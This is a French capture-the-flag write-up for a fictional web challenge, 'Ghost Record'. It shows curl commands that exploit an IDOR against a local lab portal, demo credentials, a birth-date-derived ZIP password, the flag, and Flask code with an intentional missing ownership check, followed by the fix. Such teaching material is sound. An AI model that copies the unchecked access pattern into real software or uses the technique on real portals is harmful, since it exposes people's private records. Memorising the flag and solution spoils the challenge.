



# GHOST RECORD — Write-up

> Portail citoyen **EIDOLON** / VANTA//SYSTEMS — Noctis-9, 2147
> Flag : `FPS{eidolon_silence_is_not_a_sync_error}`

## Résumé organisateur — Résolution rapide

- **Prérequis :** aucun (premier challenge de la chaîne). Fournis au joueur : le badge PNG et des identifiants citoyens de démonstration.
- **Point de départ :** `/login` du portail EIDOLON, puis la consultation de son propre dossier citoyen.
- **Actions décisives :**
  1. Décoder le QR du badge **hors ligne** (`qr-reader.html` dans Firefox) → référence `eidolon://identity/1057`.
  2. Se connecter avec le compte de démonstration et repérer l'identifiant de dossier dans l'URL/API de consultation.
  3. Changer cet identifiant pour `1057` (IDOR) sur la consultation **et** l'export du dossier.
  4. Lire la pièce administrative qui prouve l'effacement délibéré de MIRA-07.
- **Emplacement du flag :** dans le dossier/export de l'identité 1057 (réponse serveur).
- **Blocages fréquents :** croire que le QR est une URL à visiter ; chercher un service externe pour le QR ; ne pas tenter l'export après la consultation.
- **Indices progressifs :** voir `ORGANIZER_HINTS.md` (section GHOST RECORD).
- **Détail complet :** sections ci-dessous.

## Présentation du challenge

- **Catégorie :** Web
- **Difficulté :** Facile (`easy`)
- **Vulnérabilité ciblée :** IDOR (Insecure Direct Object Reference) sur la consultation
  et l'export des dossiers citoyens.
- **Contexte narratif :** VANTA Systems affirme que la citoyenne **MIRA-07** n'a jamais
  existé. STATIC a récupéré son ancien badge d'identité et un accès citoyen de
  démonstration au portail EIDOLON. L'objectif est de prouver, pièce administrative à
  l'appui, que l'effacement de MIRA-07 est une décision délibérée (« Opération SILENCE »)
  et non une anomalie de synchronisation.

Le joueur reçoit deux éléments dans le briefing :

- le badge PNG `mira-07-badge.png` (pièce jointe CTFd) ;
- des identifiants citoyens de démonstration : `runner.1042` / `vanta-guest-2147`.

## Reconnaissance

### Le badge et son QR code

Le badge est une carte d'identité « CITIZEN IDENTITY CARD » au nom de **MIRA-07**,
marquée `REVOKED`. Il porte un QR code à décoder **hors ligne** — aucun service externe
n'est nécessaire.

Sur Kali Desktop standard, télécharger aussi la pièce jointe `qr-reader.html`,
l'ouvrir dans Firefox et choisir `mira-07-badge.png` dans « Image à examiner ».
Le lecteur fonctionne depuis un fichier local, sans serveur, connexion Internet,
extension de navigateur ou installation de paquet. OpenCV et `zbarimg` ne sont
pas des prérequis du joueur.

Résultat :

```
eidolon://identity/1057
```

Le QR n'est pas une URL exploitable : il s'agit d'une **référence d'identité**. Elle
désigne le dossier `1057`, celui de MIRA-07. Le numéro de série NFC imprimé sur la carte
(`04:7A:C9:…`) est un leurre : il est volontairement distinct de la référence
administrative.

### Le portail EIDOLON



La page `/login` expose un portail citoyen sobre. On s'authentifie avec les identifiants
fournis :

```
Identifiant : runner.1042
Mot de passe : vanta-guest-2147
```

Après connexion, le tableau de bord indique que notre **dossier citoyen est le `#1042`**
et propose un lien « Mon dossier citoyen » vers `/records/1042`. Les notifications
diffusent un message de « maintenance SILENCE-4 / Secteur 07 » — pur développement
narratif : elles ne révèlent plus l'identifiant de MIRA-07.



## Identification de la vulnérabilité

Deux références numériques se dégagent :

| Source | Référence | Signification |
|--------|-----------|---------------|
| Compte de démonstration | `1042` | **notre** dossier citoyen (`runner.1042`) |
| QR du badge | `1057` | le dossier de **MIRA-07** |

Notre propre dossier est servi par la route `/records/1042`. Les dossiers sont donc
adressés par un identifiant numérique directement présent dans l'URL. Le badge nous a
déjà donné l'identifiant de MIRA-07.

La question centrale est la distinction **authentification ≠ autorisation** :

- l'**authentification** vérifie *qui* nous sommes (session citoyenne valide) ;
- l'**autorisation** devrait vérifier que nous avons le droit de consulter *ce*
  dossier précis.

Ici seule l'authentification est exigée. Il faut donc tester si une session valide
permet d'ouvrir un dossier qui ne nous appartient pas : `/records/1057`.

## Exploitation

Avec une session légitime (cookie `eidolon_session` obtenu au login), on demande
simplement le dossier de MIRA-07. Les formulaires exigent un jeton CSRF, mais les routes
de **consultation** et d'**export** sont de simples `GET` : aucun jeton n'est requis.

```bash
# 1. Jeton CSRF + session
curl -s -c jar.txt http://127.0.0.1:8080/login \
  | grep -o 'name="csrf_token" value="[^"]*"'

# 2. Authentification (303 -> /dashboard)
curl -s -b jar.txt -c jar.txt -d "csrf_token=<TOKEN>&username=runner.1042&password=vanta-guest-2147" \
  http://127.0.0.1:8080/login

# 3. IDOR : notre session ouvre le dossier d'autrui
curl -s -b jar.txt http://127.0.0.1:8080/records/1057
```

Sans session, la même requête renvoie `302` vers `/login` : l'authentification reste bien
nécessaire. Avec session, `/records/1057` renvoie `200` et affiche la fiche de MIRA-07 :

- Alias : **MIRA-07**
- État du dossier : **ERASED**
- Référence administrative : **SILENCE**
- Date de naissance : **19/04/2122**
- Une section « Pièce administrative archivée » avec un bouton d'export.



C'est l'IDOR : la session `runner.1042` consulte le dossier `1057` qui appartient à un
autre titulaire, sans aucun contrôle de propriété.

## Récupération de l'archive

La fiche de MIRA-07 propose un export absent de notre propre dossier (le dossier `1042`
n'a pas de rapport). On télécharge l'archive ZIP via la même session :

```bash
curl -s -b jar.txt -o SILENCE_MIRA-07.zip http://127.0.0.1:8080/records/1057/export
```

L'archive `SILENCE_MIRA-07.zip` contient un unique fichier `SILENCE_MIRA-07.pdf`,
chiffré. L'inspection confirme un chiffrement **WinZip AES-256** :

```bash
7z l -slt SILENCE_MIRA-07.zip | grep -E "Method|Encrypted"
# Encrypted = +
# Method = AES-256 Deflate
```

> `unzip` ne sait **pas** ouvrir ce format (« unsupported compression method 99 ») :
> il faut un outil gérant l'AES ZIP (voir *Déverrouillage*).

## Déverrouillage

La fiche contient une aide « EIDOLON Legacy v2.1 » :

> Les archives créées par **EIDOLON Legacy v2.1** sont protégées par un mot de passe
> dérivé automatiquement de la **date de naissance du titulaire**. Format : `AAAAMMJJ`.

La date de naissance de MIRA-07 est lisible sur sa fiche : **19/04/2122**. Au format
`AAAAMMJJ` :

```
21220419
```

On ouvre alors l'archive avec `7z`, compatible AES et fourni dans Kali standard :

```bash
7z x -p21220419 SILENCE_MIRA-07.zip
# -> SILENCE_MIRA-07.pdf
```

La solution Python du solveur auteur est facultative et n'est pas nécessaire au joueur.

## Flag

Le PDF `SILENCE_MIRA-07.pdf` est un rapport interne VANTA (« OPÉRATION SILENCE »,
classification RESTRICTED). Il confirme l'effacement délibéré du dossier 1057 et porte,
dans le cartouche « IDENTIFIANT DE PREUVE », le flag :

Le rapport peut être lu directement dans Firefox ou Atril sur Kali Xfce.
L'extraction automatisée suivante est une alternative auteur, pas un prérequis :

```bash
pdftotext SILENCE_MIRA-07.pdf - | grep -o 'FPS{[^}]*}'
```

```
FPS{eidolon_silence_is_not_a_sync_error}
```

Le flag raconte le cœur du challenge : le silence autour de MIRA-07 n'est pas une erreur
de synchronisation, c'est une décision.

## Analyse de la cause racine

La faille se situe dans la factorisation de l'accès aux dossiers (`app.py`) :

```python
@app.get("/records/<int:record_id>")
@login_required
def record(record_id):
    return render_template("record.html", record=requested_record(record_id))

def requested_record(record_id):
    record = RECORDS.get(record_id)
    if record is None:
        abort(404)
    # IDOR INTENTIONNELLE : aucune comparaison owner_user_id / g.user["id"].
    return record
```

Le décorateur `@login_required` ne vérifie **que** la présence d'un utilisateur en session
(authentification). La fonction `requested_record` récupère ensuite n'importe quel dossier
par son identifiant **sans jamais comparer** `record["owner_user_id"]` à l'identité de
l'utilisateur courant `g.user["id"]`. La route d'export réutilise exactement la même
fonction, ce qui propage la faille au téléchargement de l'archive.

Autrement dit : l'application sait *qui* fait la requête, mais ne vérifie jamais si cette
personne a le *droit* d'accéder à l'objet demandé. L'identifiant du dossier étant un
entier séquentiel exposé dans l'URL, il est trivial d'énumérer ou de cibler un dossier
voisin — ici, l'identifiant précis est même fourni par le badge.

Le reste de l'application est, lui, correctement verrouillé : comparaison de mot de passe
à temps constant, pas d'énumération d'utilisateurs (réponse identique pour un compte
absent), CSRF sur les `POST`, en-têtes de sécurité (CSP, `X-Frame-Options`,
`X-Content-Type-Options`, cookie `HttpOnly`/`SameSite`), `DEBUG` désactivé. L'IDOR est
donc le **seul** chemin d'exploitation prévu.

## Correction recommandée

> À titre pédagogique uniquement — **ne pas appliquer** au challenge : l'IDOR est la
> vulnérabilité intentionnelle.

Dans une application de production, l'autorisation doit être vérifiée au niveau de la
ressource, après l'authentification :

```python
def requested_record(record_id):
    record = RECORDS.get(record_id)
    if record is None:
        abort(404)
    # Contrôle d'autorisation : le dossier doit appartenir à l'utilisateur courant.
    if record["owner_user_id"] != g.user["id"]:
        abort(404)  # 404 plutôt que 403 pour ne pas confirmer l'existence du dossier.
    return record
```

Bonnes pratiques complémentaires :

- préférer des identifiants non devinables (UUID) aux entiers séquentiels ;
- centraliser le contrôle d'accès (un décorateur `@owns_record`) pour éviter qu'une
  nouvelle route réintroduise la faille ;
- renvoyer `404` plutôt que `403` pour ne pas révéler l'existence d'un dossier voisin ;
- journaliser les accès refusés pour la détection.

## Conclusion

**Compétences mobilisées :**

- décodage de QR code hors ligne ;
- analyse d'un portail web authentifié et de sa logique d'adressage d'objets ;
- identification et exploitation d'une IDOR avec une session légitime ;
- manipulation d'archives ZIP chiffrées en AES et extraction de contenu PDF.

**À retenir :** une authentification solide ne vaut rien sans contrôle d'autorisation par
ressource. Dès qu'un identifiant d'objet apparaît dans une URL, chaque accès doit vérifier
que l'utilisateur courant est bien autorisé sur *cet* objet précis. Ghost Record isole ce
principe : tout le reste de l'application est durci, seule la vérification de propriété
manque — et cela suffit à exposer un dossier confidentiel.
